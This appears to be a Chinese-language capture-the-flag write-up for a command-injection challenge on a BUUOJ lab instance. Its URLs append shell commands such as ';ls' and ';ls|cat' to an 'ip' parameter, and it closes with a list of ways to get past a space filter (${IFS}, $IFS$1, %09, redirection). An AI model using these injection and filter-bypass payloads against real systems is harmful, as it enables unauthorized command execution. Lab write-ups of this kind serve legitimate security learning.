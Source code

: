 ![image-20210514212559594](WriteUp.assets/image-20210514212559594.png)

[9f907086-8cc8-4dee-a309-9b14b3765fd0.node3.buuoj.cn/?ip=www.baidu.com;echo "xx"](http://9f907086-8cc8-4dee-a309-9b14b3765fd0.node3.buuoj.cn/?ip=www.baidu.com;echo "xx")

![image-20210514212753669](WriteUp.assets/image-20210514212753669.png)

[9f907086-8cc8-4dee-a309-9b14b3765fd0.node3.buuoj.cn/?ip=www.baidu.com;echo xx](http://9f907086-8cc8-4dee-a309-9b14b3765fd0.node3.buuoj.cn/?ip=www.baidu.com;echo xx)

![image-20210514212830809](WriteUp.assets/image-20210514212830809.png)

无法使用空格，尝试使用管道

[9f907086-8cc8-4dee-a309-9b14b3765fd0.node3.buuoj.cn/?ip=www.baidu.com;ls](http://9f907086-8cc8-4dee-a309-9b14b3765fd0.node3.buuoj.cn/?ip=www.baidu.com;ls)

![image-20210514212928234](WriteUp.assets/image-20210514212928234.png)

可知flag在本目录下，使用ls|cat

http://9f907086-8cc8-4dee-a309-9b14b3765fd0.node3.buuoj.cn/?ip=www.baidu.com;ls|cat

![image-20210514213138315](WriteUp.assets/image-20210514213138315.png)

。。。。

经过测试，这个命令只在Windows下可执行，Linux下只会输出目录

查看题解

使用

1. ${IFS}替换
2. $IFS$1替换
3. ${IFS替换
4. %20替换
5. <和<>重定向符替换
6. %09替换
